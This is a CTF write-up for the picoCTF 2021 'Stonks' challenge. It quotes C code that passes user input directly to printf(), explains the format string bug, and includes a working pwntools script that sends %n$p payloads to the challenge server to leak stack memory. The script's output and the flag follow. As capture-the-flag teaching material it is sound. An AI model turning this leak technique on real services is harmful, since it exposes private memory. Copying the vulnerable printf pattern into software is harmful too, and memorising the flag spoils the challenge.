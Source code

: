# Stonks
## Category - Binary Exploitation
## Author - MADSTACKS

### Description: 
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 59616

### Solution:
The challenge gives us a link to download the source code for the challenge as well as a netcat command we can use to actually run the challenge binary. Looking at the source code
we see that it is vulnerable to a format string vulnerability because of this segment of code in the buy_stonks() function:
```c
  char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
As it uses the printf() function to print out whatever we input here we can input a format string such as %s to leak strings in memory. In addition to this, thanks to the beauty
of format strings we can use direct format strings such as "%n$s" to leak a particular string in memory where n is the nth string to take from memory. You can replace this with
any integer value to leak specific strings. For this challenge however we must use %p format strings to leak pointers as the flag is not stored as a direct string in memory. Simply
writing a script that loops through all possible direct format strings and reads the result should do the trick. Unfortunately, however, the endiannes of the resulting strings is 
reversed from what we want it to be so we must reverse the endiannes before getting parts of the flag. Below is the script I wrote for this challenge. After running it for just a bit
you will begin to see parts of the flag pop up:
```python
from pwn import *
import sys
import codecs

f = open("stonksdump.txt", "a")

for i in range(1, 100):
    r = remote('mercury.picoctf.net', 59616)
    r.sendlineafter("2) View my portfolio", "1")
    r.sendlineafter("What is your API token?", '%{}$p'.format(i))
    r.recvline()
    r.recvline()
    leak = r.recvline()
    data = leak.strip()[2:]
    print i
    print data
    if 'il' not in data:
        if len(data)%2 == 0:
            newdat = codecs.encode(codecs.decode(data, 'hex')[::-1], 'hex').decode()
            f.write(str(i) + ": " + newdat.strip().decode("hex") + '\n')
            print(str(i) + ": " + newdat.strip().decode("hex") + '\n')
        else:
            f.write(str(i) + ": " + leak.strip() + '\n')
            print(str(i) + ": " + leak.strip() + '\n')
    r.close()
```
Sample output after running the script:
```
zerodaytea@Patryk:/mnt/d/Coding/CTFs/PicoCTF2021/BinaryExploitation$ python2 stonkssolver.py
[+] Opening connection to mercury.picoctf.net on port 59616: Done
1
833b3f0
1: 0x833b3f0

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
2
804b000
2: 0x804b000

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
3
80489c3
3: 0x80489c3

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
4
f7f50d80
4: \x80

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
5
ffffffff
5: \xff\xff\xff\xff

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
6
1
6: 0x1

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
7
835d160
7: 0x835d160

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
8
f7f26110
8: \x10

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
9
f7ee4dc7
9: M

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
10
il)
[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
11
9140180
11: 0x9140180

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
12
1
12: 0x1

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
13
8b59370
13: 0x8b59370

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
14
9840390
14: 0x9840390

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
15
6f636970
15: pico

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
16
7b465443
16: CTF{

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
17
306c5f49
17: I_l0

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
18
345f7435
18: 5t_4

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
19
6d5f6c6c
19: ll_m

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
20
306d5f79
20: y_m0

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
21
5f79336e
21: n3y_

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
22
38343136
22: 6148

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
23
34356562
23: be54

[*] Closed connection to mercury.picoctf.net port 59616
[+] Opening connection to mercury.picoctf.net on port 59616: Done
24
ffc9007d
24: }\x00\xff
```

### Flag:
```
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}
```
